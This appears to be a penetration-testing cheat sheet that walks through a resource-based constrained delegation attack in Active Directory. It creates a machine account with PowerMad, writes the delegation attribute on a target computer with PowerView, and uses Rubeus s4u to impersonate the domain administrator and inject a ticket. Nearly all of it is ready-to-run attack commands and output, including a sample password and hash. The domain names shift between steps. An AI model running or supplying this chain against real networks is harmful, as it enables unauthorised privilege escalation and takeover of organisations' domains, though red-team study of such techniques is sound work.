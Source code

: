 # PowerMad Methode - Exploiting Generic Write Right

1. Create a new machine using PowerMad

```PowerShell
New-MachineAccount -MachineAccount volkenComputer -Password $(ConvertTo-SecureString 'h4xh4x!' -AsPlainText -Force) -Domain dev.sinhack.com
[+] Machine account volkenComputer added
```

2. Give it the rights using PowerView.

```PowerShell
$sid =Get-DomainComputer -Identity volkenComputer -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"

$SDbytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDbytes,0)

Get-DomainComputer -Identity DEV02 -Domain dev.sinhack.com | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

$RBCDbytes = Get-DomainComputer DEV02 -Domain dev.sinhack.com -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity

$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0

$Descriptor.DiscretionaryAcl

# Output
BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-2032401531-514583578-4118054891-6101
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None

OPS\volkenComputer$
```

3. Confirm it's SID.

```PowerShell
ConvertFrom-SID S-1-5-21-2032401531-514583578-4118054891-6101
```

4. As Administrator run Rubeus to steal ticket.

```bash
# Hash the password to get is RC4 value.
Rubeus.exe hash /password:h4xh4x!

# Steal the ticket
Rubeus.exe s4u /user:volkenComputer$ /rc4:7D9FE135F52273BA258569D0E5B10D51 /impersonateuser:administrator /msdsspn:CIFS/jump09.ops.comply.com /ptt
```

5. Verifyt with klist that the ticket is successfully imported.